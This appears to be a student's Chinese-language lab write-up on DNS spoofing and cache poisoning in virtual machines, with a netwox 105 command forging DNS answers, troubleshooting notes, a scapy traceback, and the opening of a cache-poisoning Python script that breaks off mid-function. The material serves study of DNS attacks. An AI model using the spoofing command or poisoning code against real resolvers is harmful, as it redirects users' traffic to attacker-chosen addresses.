

查询后出现了**访问域名有关的**记录：

```
weibo.com.		172628	NS	ns1.sina.com.cn.
				172628	NS	ns2.sina.com.cn.
				172628	NS	ns3.sina.com.
				172628	NS	ns3.sina.com.cn.
				172628	NS	ns4.sina.com.
				172628	NS	ns4.sina.com.cn.
```

## DNS 欺骗

%22%20viewBox%3D%220%200%20330%20124%22%20width%3D%22100%25%22%20xmlns%3D%22http%3A%2F%2Fwww.w3.org%2F2000%2Fsvg%22%3E%3Crect%20x%3D%229%22%20y%3D%2228%22%20width%3D%2290%22%20height%3D%2246%22%20rx%3D%227%22%20fill%3D%22%23DDEBFA%22%2F%3E%3Ctext%20x%3D%2254%22%20y%3D%2247%22%20text-anchor%3D%22middle%22%20font-size%3D%2212%22%20font-weight%3D%22600%22%20fill%3D%22%23245B96%22%3E%E5%AE%A2%E6%88%B7%E7%AB%AF%3C%2Ftext%3E%3Ctext%20x%3D%2254%22%20y%3D%2262%22%20text-anchor%3D%22middle%22%20font-size%3D%2210%22%20fill%3D%22%23245B96%22%3E%E5%8F%91%E5%87%BA%E6%9F%A5%E8%AF%A2%3C%2Ftext%3E%3Crect%20x%3D%22231%22%20y%3D%2228%22%20width%3D%2290%22%20height%3D%2246%22%20rx%3D%227%22%20fill%3D%22%23FBE6E2%22%2F%3E%3Ctext%20x%3D%22276%22%20y%3D%2247%22%20text-anchor%3D%22middle%22%20font-size%3D%2212%22%20font-weight%3D%22600%22%20fill%3D%22%23A54335%22%3E%E4%BC%AA%E9%80%A0%E5%BA%94%E7%AD%94%3C%2Ftext%3E%3Ctext%20x%3D%22276%22%20y%3D%2262%22%20text-anchor%3D%22middle%22%20font-size%3D%2210%22%20fill%3D%22%23A54335%22%3E%E6%8F%90%E4%BE%9B%E9%94%99%E8%AF%AF%E5%9C%B0%E5%9D%80%3C%2Ftext%3E%3Cpath%20d%3D%22M99%2042%20H227%22%20stroke%3D%22currentColor%22%20stroke-width%3D%221.5%22%20fill%3D%22none%22%2F%3E%3Cpath%20d%3D%22M221%2037%20L229%2042%20L221%2047%22%20fill%3D%22none%22%20stroke%3D%22currentColor%22%20stroke-width%3D%221.5%22%2F%3E%3Cpath%20d%3D%22M231%2061%20H103%22%20stroke%3D%22%23A54335%22%20stroke-width%3D%221.5%22%20stroke-dasharray%3D%225%204%22%2F%3E%3Cpath%20d%3D%22M109%2056%20L101%2061%20L109%2066%22%20stroke%3D%22%23A54335%22%20stroke-width%3D%221.5%22%20fill%3D%22none%22%2F%3E%3Ctext%20x%3D%22165%22%20y%3D%2225%22%20text-anchor%3D%22middle%22%20font-size%3D%2210%22%20fill%3D%22currentColor%22%3E%E6%9F%A5%E8%AF%A2%3C%2Ftext%3E%3Ctext%20x%3D%22165%22%20y%3D%2279%22%20text-anchor%3D%22middle%22%20font-size%3D%2210%22%20fill%3D%22%23A54335%22%3E%E9%94%99%E8%AF%AF%E7%AD%94%E6%A1%88%3C%2Ftext%3E%3Ctext%20x%3D%22165%22%20y%3D%22108%22%20font-size%3D%2211%22%20text-anchor%3D%22middle%22%20fill%3D%22currentColor%22%3E%E5%AE%A2%E6%88%B7%E7%AB%AF%E5%8F%AF%E8%83%BD%E8%A2%AB%E8%AF%AF%E5%AF%BC%EF%BC%8C%E4%BD%86%E4%B8%8D%E4%BB%A3%E8%A1%A8%E7%BC%93%E5%AD%98%E5%B7%B2%E7%BB%8F%E6%94%B9%E5%8F%98%3C%2Ftext%3E%3C%2Fsvg%3E)

> 该图片由 GPT 讲解时自动生成

### 准备工作

先安装需要的 `netwox` 工具。`netwox` 是一个包含两百多种网络探测与测试工具的工具箱。

```bash
sudo add-apt-repository universe # 启用 universe 仓库
sudo apt update
sudo apt install netwox
```

> 然而安装这一步遇到了网络问题。
>
> 
>
> `Temporary failure resolving 'us.archive.ubuntu.com'` 是域名解析临时失败。系统显示有 84 个包可升级，说明 **APT 的本地缓存是正常的**，那么有可能是 DNS 或者 网络连接问题。
>
> ```bash
> ping -c 4 8.8.8.8
> ```
>
> 测试延迟后惊奇的发现——ping失败了，丢包率百分百。我尝试打开百度验证，发现网页也打不开。
>
> 此时我不禁开始担心脆弱的网络配置是否出了岔子~~毕竟这是纯纯在GPT指导下在VMWare里面配置的DNS之类的~~
>
> 于是我为了交叉验证到了131的攻击端做了实验，进行 `ping` 之后发现**竟然也完全丢包**！
>
> 一时有些绝望，但这时想起来了[之前访问微博时是正常的](####访问微博 查看缓存)，虽然页面没有加载但是成功跳转到了对应的登陆网址，130机器上也留下了记录。
>
> 于是打开百度进行验证，结果非常顺畅。
>
> 
>
> 到这里我突然想到，130由于[之前配置后发现有问题](###设置为IPv4直连)所以切回直连了，后来恢复的时候**没有填DNS**、只填了IP地址/掩码/网关。
>
> 
>
> 因为~~GPT讲义里面DNS这里留空了所以~~当时突然忘记具体DNS了，于是只填了其余项，之前[互联成功](####互联成功)也让我放松了警惕，想着 反正DNS也不会影响联网，无非自动选择DNS……但结果很搞笑
>
> 
>
> 对比一开始就正常配置的 131 和 132 可以发现确实缺了 DNS。
>
> 补上 DNS 之后，网络连接和包抓取均正常了。
>
> 
>
> **AI 替代大脑开始跟着傻瓜教程一步步流水线式操作迟早出问题**……

### DNS 欺骗演示

使用 `netwox 105` 工具构造了 DNS 应答：

```bash
sudo netwox 105 	
	-h "www.google.com"  			#模拟应答的域名
	-H "182.61.200.6" 				#伪造的地址
	-a "ns.example.com" 			#应答中的名称服务器信息
	-A "192.168.0.10" 				#对应名称服务器的地址信息
	-f "src host 192.168.187.132"	#抓包过滤条件, 132为测试机
	-d ens33						#网络接口名称
```

> **抓包接口不能直接照抄。**
>
> 文档使用的 `ens33` 是示例虚拟机中的接口名称。
>
> 如果实际机器的接口不同，就需要通过：
>
> ```
> ip addr
> ```
>
> 查看实际网卡名称。
>
> ---
>
> GPT 如是警告，不过似乎对于这台光板虚拟机这并不成问题，大概是默认端口名。



在**测试机 122** 中进行测试，结果如预期：



两次查询都返回了 `182.61.200.6` ，且可以观察到应答中带有 `ns.example.com` 等信息，符合实验配置。

## 缓存投毒（未完成）

%22%20viewBox%3D%220%200%20330%20124%22%20width%3D%22100%25%22%20xmlns%3D%22http%3A%2F%2Fwww.w3.org%2F2000%2Fsvg%22%3E%3Crect%20x%3D%229%22%20y%3D%2226%22%20width%3D%2290%22%20height%3D%2246%22%20rx%3D%227%22%20fill%3D%22%23FBE6E2%22%2F%3E%3Ctext%20x%3D%2254%22%20y%3D%2245%22%20text-anchor%3D%22middle%22%20font-size%3D%2212%22%20font-weight%3D%22600%22%20fill%3D%22%23A54335%22%3E%E4%BC%AA%E9%80%A0%E5%BA%94%E7%AD%94%3C%2Ftext%3E%3Ctext%20x%3D%2254%22%20y%3D%2260%22%20text-anchor%3D%22middle%22%20font-size%3D%2210%22%20fill%3D%22%23A54335%22%3E%E6%94%BB%E5%87%BB%E7%AB%AF%3C%2Ftext%3E%3Crect%20x%3D%22231%22%20y%3D%2226%22%20width%3D%2290%22%20height%3D%2246%22%20rx%3D%227%22%20fill%3D%22%23DDEBFA%22%2F%3E%3Ctext%20x%3D%22276%22%20y%3D%2245%22%20text-anchor%3D%22middle%22%20font-size%3D%2212%22%20font-weight%3D%22600%22%20fill%3D%22%23245B96%22%3EDNS%20%E7%BC%93%E5%AD%98%3C%2Ftext%3E%3Ctext%20x%3D%22276%22%20y%3D%2260%22%20text-anchor%3D%22middle%22%20font-size%3D%2210%22%20fill%3D%22%23245B96%22%3E%E6%9C%8D%E5%8A%A1%E7%AB%AF%3C%2Ftext%3E%3Cpath%20d%3D%22M99%2049%20H228%22%20stroke%3D%22%23A54335%22%20stroke-width%3D%221.8%22%20stroke-dasharray%3D%225%204%22%2F%3E%3Cpath%20d%3D%22M220%2044%20L229%2049%20L220%2054%22%20stroke%3D%22%23A54335%22%20stroke-width%3D%221.8%22%20fill%3D%22none%22%2F%3E%3Ctext%20x%3D%22164%22%20y%3D%2238%22%20text-anchor%3D%22middle%22%20font-size%3D%2210%22%20fill%3D%22%23A54335%22%3E%E9%94%99%E8%AF%AF%E8%AE%B0%E5%BD%95%E8%A2%AB%E6%8E%A5%E5%8F%97%3C%2Ftext%3E%3Ctext%20x%3D%22165%22%20y%3D%22100%22%20font-size%3D%2211%22%20text-anchor%3D%22middle%22%20fill%3D%22currentColor%22%3E%E5%90%8E%E7%BB%AD%E6%9F%A5%E8%AF%A2%E5%8F%AF%E8%83%BD%E7%BB%A7%E7%BB%AD%E5%8F%96%E5%BE%97%E7%BC%93%E5%AD%98%E4%B8%AD%E7%9A%84%E9%94%99%E8%AF%AF%E7%AD%94%E6%A1%88%3C%2Ftext%3E%3C%2Fsvg%3E)

### 准备工作

先**注释掉** `example.com` **区域**，然后清空缓存并重新启动 BIND9。

> 此处有些奇怪，我对照GPT的讲解做的，此前讲解中[确有此步](####`named.conf`)；
>
> 然而我回到原文的时候却发现我**没找到有说过**在 `named.conf` 中声明这段的部分
>
> ```
> zone "example.com" {
>     type master;
>     file "/etc/bind/example.com.db";
> };
> ```

因为前面主要测试的是自己的**权威 DNS 区域**，也就是**已知的本地** DNS 及网络信息，而后面的缓存投毒实验是希望 130 去**外部查询**一个它没有现成信息的域名，从而出现上游应答。

所以需要临时注释相关区域，再清空缓存并重新启动 BIND9。



### 环境配置

默认的 `ubuntu-16.04.6` 自带 python **2.7** （不是 python 3 ），且基本上什么包都没有，甚至连安装包的 **pip 管理都没有**。

```bash
sudo apt install python-pip
```

而此处依赖的 `scapy` 库也是没有的。需要安装。然而由于 python 版本老旧，于是需要只能安装到对应支持的版本。

```bash
pip install --pre scapy[basic] 	# 最新的 Python 2 兼容版本
pip install scapy==2.5.0		# Scapy 从 2.5.0 版本之后就不再支持 Python 2 了
```

上面两条里面选择一条即可……吗？

> ```bash
> dnsserver@server:~/Desktop$ python 1.py
> ERROR: Loading module scapy.layers.mspac
> Traceback (most recent call last):
>   File "/home/dnsserver/.local/lib/python2.7/site-packages/scapy/main.py", line 156, in _load
>     mod = importlib.import_module(module)
>   File "/usr/lib/python2.7/importlib/__init__.py", line 37, in import_module
>     __import__(name)
>   File "/home/dnsserver/.local/lib/python2.7/site-packages/scapy/layers/mspac.py", line 482, in <module>
>     class CLAIM_ENTRY(NDRPacket):
>   File "/home/dnsserver/.local/lib/python2.7/site-packages/scapy/layers/mspac.py", line 486, in CLAIM_ENTRY
>     NDRInt3264EnumField("Type", 0, CLAIM_TYPE),
>   File "/home/dnsserver/.local/lib/python2.7/site-packages/scapy/layers/dcerpc.py", line 1102, in __init__
>     _NDREnumField(*args, **kwargs), align=(2, 4)
>   File "/home/dnsserver/.local/lib/python2.7/site-packages/scapy/fields.py", line 2467, in __init__
>     keys = list(enum)  # type: ignore
> TypeError: 'type' object is not iterable
> ('up_domain', 'example.com')
> Traceback (most recent call last):
>   File "1.py", line 136, in <module>
>     start_poison(traget_DNS_server,traget_domain)
>   File "1.py", line 97, in start_poison
>     IP_list = Get_target_IP_list(traget_DNS_server,up_domain)
>   File "1.py", line 32, in Get_target_IP_list
>     ans = sr1(IP(dst=target_server)/UDP(sport=RandShort(), dport=53)/DNS(rd=1,qd=DNSQR(qname=domain,qtype="NS")))
>   File "/home/dnsserver/.local/lib/python2.7/site-packages/scapy/sendrecv.py", line 663, in sr1
>     ans, _ = sr(*args, **kargs)
>   File "/home/dnsserver/.local/lib/python2.7/site-packages/scapy/sendrecv.py", line 651, in sr
>     iface=iface, nofilter=nofilter)
>   File "/home/dnsserver/.local/lib/python2.7/site-packages/scapy/arch/linux.py", line 485, in __init__
>     socket.AF_PACKET, socket.SOCK_RAW, socket.htons(type))
>   File "/usr/lib/python2.7/socket.py", line 191, in __init__
>     _sock = _realsocket(family, type, proto)
> socket.error: [Errno 1] Operation not permitted
> ```
>
> ·

然后运行投毒程序（附件中的）：

```python
# -*- coding: utf-8 -*-
"""
Created on Mon Jul  8 13:42:17 2019

@author: MyPC
"""

import scapy
from scapy.all import *
from scapy.utils import PcapReader

import threading
import random

import time
import re

#%%
 
def ipv4_addr_check(ipAddr):
    p = re.compile('^((25[0-5]|2[0-4]\d|[01]?\d\d?)\.){3}(25[0-5]|2[0-4]\d|[01]?\d\d?)$')
    if p.match(ipAddr):
        return True
    else:
        return False

#输入要请求的域名，返回最终负责的IP地址列表
def Get_target_IP_list(target_server = "180.76.76.76",domain = "."):
    ans = sr1(IP(dst=target_server)/UDP(sport=RandShort(), dport=53)/DNS(rd=1,qd=DNSQR(qname=domain,qtype="NS")))
    #print(ans.show2())
    IP_list = []
    for i in range(ans.arcount):
        #print(ans.ar[i].rdata)
        if ipv4_addr_check(ans.ar[i].rdata):
            IP_list.append(ans.ar[i].rdata)
    #r = ans.ar["DNS Resource Record"]
    return IP_list
    

def fake_q(target_recursive_dns_ip,domain):
    #fake_src=str(random.randint(1,192))+"."+str(random.randint(1,192))+"."+str(random.randint(1,192))+"."+str(random.randint(1,192))
    #fake_src = "192.168.4.103"
    req =(IP(dst=target_recursive_dns_ip)/\
          UDP(sport=random.randint(2000,4000), dport=53)/\
